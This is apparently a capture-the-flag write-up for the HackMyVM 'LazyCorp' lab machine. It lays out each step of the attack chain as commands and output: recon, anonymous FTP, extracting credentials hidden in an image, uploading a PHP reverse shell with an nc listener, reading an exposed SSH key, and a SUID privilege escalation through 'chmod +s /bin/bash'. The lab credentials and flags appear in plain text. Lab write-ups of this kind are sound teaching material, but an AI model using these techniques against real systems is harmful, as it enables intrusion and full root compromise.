




# LazyCorp — HackMyVM Writeup

**Difficulty:** Easy  
**OS:** Linux  
**Author:** shalopai

---

## Reconnaissance

### Nmap

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

Open ports:
- **21/tcp** — vsftpd 3.0.5 (anonymous login allowed)
- **22/tcp** — OpenSSH 8.2p1
- **80/tcp** — Apache 2.4.41

`robots.txt` reveals two disallowed paths:

```
Disallow: /cms-admin.php
Disallow: /auth-LazyCorp-dev/
```



---

## FTP — Anonymous Login

```bash
ftp 172.20.10.3
# login: anonymous, password: <blank>
cd pub
get note.jpg
```

Directory `/pub` contains `note.jpg`.

---

## Steganography

```bash
stegseek -wl '/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt' note.jpg
cat note.jpg.out
```

Empty passphrase — hidden file `creds.txt` extracted:

```
Username: dev
Password: d3v3l0pm3nt!nt3rn
```

---

## Web — Auth Panel

`/auth-LazyCorp-dev/` returns 404, but `/auth-lazycorp-dev/` (all lowercase) returns 200.



Login with `dev:d3v3l0pm3nt!nt3rn` → redirected to `dashboard.php`.



---

## Initial Foothold — PHP Reverse Shell

The dashboard exposes a file upload form with no extension filtering.

Upload a standard pentestmonkey PHP reverse shell with updated IP and port:

```php
$ip = '172.20.10.5';
$port = 4222;
```

Start listener:

```bash
nc -lvnp 4222
```

Trigger the shell via browser:

```
http://172.20.10.3/auth-lazycorp-dev/uploads/RS.php
```



Connection received as `www-data`. Upgrade the shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## User Flag

```bash
cat /home/arvind/user.txt
# FLAG{you_got_foothold_nice}
```

---

## Lateral Movement — www-data → arvind

SSH private key in `/home/arvind/.ssh/` is world-readable:

```bash
ls -la /home/arvind/.ssh/
# -rw-r--r-- 1 arvind arvind 3389 Jul  9  2025 id_rsa
cat /home/arvind/.ssh/id_rsa
```

Copy the key locally and connect:

```bash
chmod 600 id_rsaArvind
ssh -i id_rsaArvind arvind@172.20.10.3
```

---

## Privilege Escalation — arvind → root

Find SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
# /home/arvind/reset  ← custom binary
```

Inspect the binary:

```bash
strings /home/arvind/reset
# setuid
# system
# /usr/bin/reset_site.sh
```

The SUID root binary calls `/usr/bin/reset_site.sh`. Check script permissions:

```bash
ls -la /usr/bin/reset_site.sh
# -rwxrwxr-x 1 root arvind 254 Jul  9  2025
```

Group `arvind` has write access. Append a payload and execute:

```bash
echo 'chmod +s /bin/bash' >> /usr/bin/reset_site.sh
./reset
/bin/bash -p
whoami
# root
```

**Exploitation chain:**  
`./reset (SUID root)` → `setuid(0)` → `system(script as root)` → `chmod +s /bin/bash` → `bash -p` → **root shell**

---

## Root Flag

```bash
cat /root/root.txt
# FLAG{lazycorp_reset_exploit_worked}
```

---

## Summary

| Step | Technique |
|------|-----------|
| Recon | nmap, robots.txt enumeration |
| Credentials | FTP anonymous login + steghide (stegseek) |
| Foothold | Unrestricted file upload → PHP webshell |
| Lateral movement | World-readable SSH private key |
| Privilege escalation | Writable script called by SUID binary |